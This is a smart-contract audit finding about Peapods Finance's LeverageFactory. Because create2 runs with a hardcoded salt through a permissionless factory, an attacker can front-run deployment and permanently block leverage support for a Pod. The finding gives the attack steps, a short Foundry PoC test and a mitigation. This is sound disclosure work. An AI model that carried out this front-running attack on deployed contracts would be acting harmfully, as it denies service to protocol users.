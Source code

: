 Nutty Steel Sealion

Medium

# Predictable ASP token deployment parameters leads to DoS of leverage support for Pods

### Summary

The `LeverageFactory` contract uses predictable parameters when deploying ASP tokens through `create2`, allowing attackers to front-run Pod leverage support by deploying ASP tokens with the same parameters, effectively blocking leverage functionality for legitimate Pods.

### Root Cause

The [`LeverageFactory::_getOrCreateAspTkn`](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/lvf/LeverageFactory.sol#L241-L248) function uses predictable parameters for ASP token deployment, including a hardcoded salt value of 0.

 The [`create`](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/AutoCompoundingPodLpFactory.sol#L19) function in `AutoCompoundingPodLpFactory` is permissionless.

Since the deployment uses `create2`, only one contract can be deployed with the same parameters, making it vulnerable to front-running attacks.

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A


### Attack Path

1. Attacker calls `create` directly on the factory with predictable parameters for a Pod.
2. Attacker's transaction deploys the ASP token using `create2`.
3. The legitimate `addLvfSupportForPod` transaction fails because the ASP token address is already deployed.
4. Leverage support for the pod is permanently blocked.

### Impact

 Permanent denial of service for leverage functionality on targeted Pods.

### PoC

```solidity
tion test_DoSLvfSupportForPod() public {
    string memory name = IERC20Metadata(pod).name();
    string memory symbol = IERC20Metadata(pod).symbol();

    string memory _aspName = string.concat("Auto Compounding LP for ", name);
    string memory _aspSymbol = string.concat("as", symbol);

    uint96 salt = 0;

    aspTknFactory.create(
        _aspName,
        _aspSymbol,
        false,
        pod,
        dexAdapter,
        idxUtils,
        salt
    );

    address _lpStakingPool = pod.lpStakingPool();
    vm.expectRevert();      
    (,, address _fraxlendPair) = leverageFactory.addLvfSupportForPod(
        address(pod),
        address(dexAdapter),
        address(idxUtils),
        abi.encode(
            address(_clOracle),
            address(_uniOracle),
            address(_diaOracle),
            dai,
            false,
            false,
            _lpStakingPool,
            address(0) 
        ),
        abi.encode(address(0), address(0), address(0), address(0), address(0), address(_v2Res)),
        abi.encode(uint32(0), address(0), uint64(0), uint256(0), uint256(0), uint256(0))
    ); 
}
```

### Mitigation

Add access controls to ASP token creation, or switch to the `create` opcode instead of `create2`.